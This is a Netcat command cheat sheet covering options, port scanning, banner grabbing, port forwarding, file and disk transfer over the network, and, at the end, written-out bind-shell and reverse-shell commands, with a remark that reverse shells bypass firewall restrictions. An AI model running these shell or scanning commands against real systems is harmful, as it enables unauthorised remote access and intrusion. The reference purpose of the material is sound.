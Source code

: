 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags: 
    - ncat
    - nc
    - utility
    - network
    - traffic
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
plugins:
    - copyCode
---
```


Getting Started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
|--------|----------------------------|------------------------------------------|
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Netcat Examples
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections


